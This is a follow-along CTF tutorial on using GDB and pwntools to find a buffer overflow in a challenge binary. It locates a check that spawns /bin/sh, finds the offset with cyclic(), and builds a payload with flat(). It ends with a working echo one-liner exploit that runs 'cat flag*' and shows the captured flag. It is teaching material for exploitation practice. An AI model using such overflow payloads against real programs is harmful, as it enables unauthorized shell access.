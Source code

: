 
<!--
cls
gdb overflowwwwwwwww -q
info functions
break main
run
disassemble
print/s (char*)0x8002036
delete 1
break *0x0000000008001264
continue
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
layout regs
focus cmd
print/x $rax
run < <(echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa')
y
print/x $rax

---

python
from pwn import *
cyclic(100)
flat( { p64(0x6161617661616175): p64(0x13371337) } )
flat( { p64(0x6161617661616175): p64(0x13371337) } ) + b"\n cat flag.txt"

-->


Time for an intro to GDB and pwntools! <br>
_Assuming some knowledge of built-in functions in C_

This is very much meant to be a follow-along tutorial, definitely download the file
and start up GDB and a python repl on your own, and use the commands used throughout here.

![](tutorial_images/init.png)

Also, I personally use Ghidra for static analysis alongside gdb and pwntools. You can 
technically do static analysis within GDB, and I'll show some of that here; but
I highly recommend finding and using a better tools.

First of all, on GDB, check the functions:
```shell
(gdb) info functions
```

There isn't much interesting here except `system` and `main`. Put a breakpoint in `main`,
run the program, and view the assembly code.

```shell
(gdb) break main
(gdb) run
(gdb) disassemble
```

![](tutorial_images/disass.png)

Here we see an interesting block of code:

```shell
   0x0000000008001264 <+155>:   cmp    $0x13371337,%rax
   0x000000000800126a <+161>:   jne    0x8001278 <main+175>
   0x000000000800126c <+163>:   lea    0xdc3(%rip),%rdi        # 0x8002036
   0x0000000008001273 <+170>:   callq  0x80010a0 <system@plt>
```

If the `$rax` register contains `0x13371337`, it'll call `system` with the argument `0x8002036`. <br>

We know `system` usually expects a string as its argument. What is the string at `0x8002036`?

```shell
(gdb) # print/s mean print a string
(gdb) print/s (char*)0x8002036
$1 = 0x8002036 "/bin/sh"
```

Perfect :) <br>
We know our goal.

---

Time to put a breakpoint at the comparison, and see what happens when we get there.

```shell
(gdb) # remove the breakpoint at main
(gdb) delete 1
(gdb) break *(main+155)
(gdb) continue
```

The program waits for `stdin`. Try putting in:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

![](tutorial_images/stdin.png)

Also, try turning on GDB's Text UI:

```shell
(gdb) layout regs
(gdb) focus cmd
```

![](tutorial_images/layout.png)

That helps make GDB feel more user-friendly, doesn't it? :) 

We can already see in our TUI that we've (probably) already injected into `$rax`, 
since it's `0x4141414141414141`.

Just to be sure, you can check with:
```shell
(gdb) print/x $rax
```

Now, time to use some basic functionality from `pwn` to find the offset.

In our Python repl, try:
```python
>>> cyclic(100)
```
The idea behind this special string is that any 4 byte substring shows up only once in the string. <br>
(think something similar to a string like "00010002000300040005...", but using a longer alphabet) <br>
So, if we happen to find 4 or 8 bytes from the middle of the user input in some register, 
finding the index of the input should be no problem.

Copy the insides of the bytestring and try sending it as stdin after restarting the binary:

```shell
(gdb) run < <(echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa')
(gdb) print/x $rax
```

We find that `$rax` is `0x6161617661616175`.

We can use pwntools to generate our exploit:
```python
>>> flat( { p64(0x6161617661616175): p64(0x13371337) } )
```
The `flat` function automatically replaces values from `cyclic()` with the values in the dict argument. 

Finally, tack in a `\n cat flag.txt` on the end to send some commands to `/bin/sh`.

![](tutorial_images/pwn_exploit.png)

---

This gives us a final exploit of: 
```shell
echo -e 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa7\x137\x13\x00\x00\x00\x00\n cat flag* \n exit'
```

Pipe that into the remote to get the flag: <br>
`ictf{aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa_h34p_c4n_b3_0v3rfl0w3d_t00}`
